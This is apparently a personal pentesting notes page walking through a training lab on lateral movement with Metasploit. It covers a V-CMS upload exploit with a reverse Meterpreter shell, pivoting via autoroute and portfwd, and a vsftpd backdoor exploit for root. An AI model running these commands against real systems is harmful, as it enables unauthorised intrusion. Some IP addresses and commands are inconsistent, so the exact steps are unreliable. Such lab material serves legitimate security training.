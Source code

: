 ```yaml
---
title: Lateral movements
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting
---
```


# Lateral movements


![lateral-movement.png](img/lateral-movement.png)


## using metasploit

1. Get our ip

```bash
ip a 
# 192.64.166.2
```

2. Get machine ip 

```bash
ping demo.ine.local
# 192.64.166.3
```

3. Enumerate services in the target machine  

```bash
nmap -sV -sS -O 192.64.166.3
# open ports: 80 and 3306.
```

4. Go further on port 80

```bash
nmap 
# In the scan you will see: V-CMS-Powered by V-CMS  and PHPSESSID: httponly flag not set
```

5. Launch metasploit and search for v-cms

```bash
service postgresql start
msfconsole -q
```

```msf
search v-cms
```

6. Use the exploit exploit/linux/http/vcms_upload, configure it and run it

```msf
use exploit/linux/http/vcms_upload
show options
```

```msf
set RHOST 192.64.166.3
set TARGETURI /
set LHOST 192.64.166.2
set payload php/meterpreter/reverse_tcp
run
```

7. You will get a limited meterpreter. Access to the shell and print the flag

```msf
meterpreter> shell
> cat /root/flag.txt
# 4f96a3e848d233d5af337c440e50fe3d
```

8. Map other possible interfaces in the machine. Since ifconfig does not work, spawn the shell and try again

```bash
ifconfig 
# does not work
```

```bash
ipconfig
# does not work
```

```bash
which python
# it’s located under /bin, so we can use python to spawn the shell
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$root@machine> ifconfig
# it tells us about another interface: 192.182.147.2
```


### route

9. Add tunnel from interface 192.64.166.3 (which is session 1 of meterpreter) and the discovered interface, 192.182.147.2 with the utility route:

```bash
$root@machine> exit
```

```msf
meterpreter> run autoroute -s 192.182.147.0 -n 255.255.255.0
# you can also add a route out of the meterpreter. In that case you need to specify the meterpreter session: route add 192.182.147.0 .0 255.255.255.0 1
```

10. Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

```msf
meterpreter> background
msf> route print
```

11. Run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

```msf
msf> use auxiliary/scanner/portscan/tcp

msf  auxiliary/scanner/portscan/tcp > set PORTS 80, 8080, 445, 21, 22

msf  auxiliary/scanner/portscan/tcp > set RHOSTS 192.69.228.3-10

msf  auxiliary/scanner/portscan/tcp > exploit
# Give us ports 21 and 22 open at 192.182.147.3
```

### portfwd

12. In order to reach the discovered target, we need to fordward remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234. This is done with the utility portfwd from meterpreter

```msf
msf  auxiliary/scanner/portscan/tcp > sessions -i 1

meterpreter> portfwd
# Tell you  there is none configured

meterpreter> portfwd add -l 1234 -p 21 -r 192.182.147.3
# -l: local port 
# -p 21 The port we are targeting in our attack 
# -r the remote host

meterpreter> portfwd list
# It tells the active Port Forwards. Now, scan the local port using Nmap
```

13. Run nmap on the forwarded local port to identify the service name

```msf
meterpreter> background

msf> nmap -sS -sV -p 1234 localhost
# It tells you the ftp version: vsftpd 2.0.8 or later
```

14. Search for vsftpd exploit module and exploit the target host using vsftpd backdoor exploit module.

```msf
msf > search vsftpd 
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit/unix/ftp/vsftpd_234_backdoor>   set RHOSTS 192.69.228.3
msf exploit/unix/ftp/vsftpd_234_backdoor> exploit

# Sometimes, the exploit fails the first time. If that happens then please run the exploit again.

$> id
# you are root.
```

15. Print the flag

```msf
$> cat /root/flag.txt
# 58c7c29a8ab5e7c4c06256b954947f9a
```
